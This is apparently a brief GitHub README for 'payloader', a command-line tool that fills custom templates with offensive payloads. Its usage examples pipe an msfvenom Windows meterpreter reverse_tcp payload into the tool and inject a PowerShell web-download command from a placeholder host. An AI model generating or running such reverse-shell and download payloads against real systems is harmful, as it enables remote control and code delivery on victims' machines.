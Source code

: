 # payloader

Generate payloads using a a simple cli interface for faster access to custom payloads.

payloader allow you to automate a whole lot of copy paste work to speed up that workflow inthe shell.

Inputs are substituted into custom templates and automate builds where possible. 

## Features

- Lightweight
- Cusom templates
- Payloads can be piped in and directly set.

Eg.

```
msfvenon -p windows/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.10 -f ps1 | payloader example.ps1 -f ps1 -o test
```

or

```bash
payloader example.ps1 -f ps1 -o test -p "iwr http://test.com/test -o test"
```
